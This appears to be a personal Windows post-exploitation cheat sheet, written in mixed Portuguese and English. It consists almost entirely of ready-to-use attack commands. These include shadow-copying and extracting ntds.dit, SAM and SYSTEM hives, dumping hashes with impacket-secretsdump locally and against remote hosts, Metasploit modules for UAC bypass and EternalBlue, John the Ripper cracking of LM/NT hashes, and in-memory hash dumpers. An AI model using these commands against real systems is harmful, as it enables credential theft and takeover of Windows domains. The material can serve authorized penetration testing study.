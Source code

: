 # windows
**enumerar versão**
```
systeminfo
```

**Obtaining AD users’ hashes or local hashes:**
```
vssadmin create shadow /for=C:
copy <shadow-volume>\Windows\NTDS\ntds.dit <ntds>
copy <shadow-volume>\Windows\system32\config\system <system>
copy <shadow-volume>\Windows\system32\config\sam <sam>

impacket-secretsdump -ntds <ntds> -system <system> LOCAL
impacket-secretsdump <user>:<pass>@<host>
```

**Capturing hashes by registry:**
```
reg save hklm\sam <name>
reg save hklm\system <name>
impacket-secretsdump -sam <sam> -system <system> LOCAL
```

**versões de hash no windows (mais antigos pro mais recentes)**
- LM (geralmente termina com `EE`, se  começar com `AA` e terminar com `EE` está em desuso)
- NTLM = NTLM V1
- NTLM V2


**Path for hashes:**
```
C:\Windows\system32\config\SAM                        usuarios windows 7,8,10,11
C:\Windows\system32\NTDS\ntds.dit                    usuarios do windows server
C:\Windows\system32\config\SYSTEM                 usuarios windows 7,8,10,11
```

Bypass User Account Control (UAC):
```
exploit/windows/local/bypassuac_fodhelper
exploit/windows/local/ask (exige interação com usuário)
```

windows antigo , testar eternalblue:
```
exploit/windows/smb/ms17_010_psexec
exploit/windows/smb/ms17_010_eternalblue
```

**Cracking hashes (hashdump)**
```
john --format=lm --wordlist=<wordlist> <hashfile>
john --format=nt --wordlist=<wordlist> <hashfile>
```

**hashes da RAM:**
```
/usr/share/windows-resources/wce/wce-universal.exe
/usr/share/windows-binaries/fgdump/fgdump.exe
```
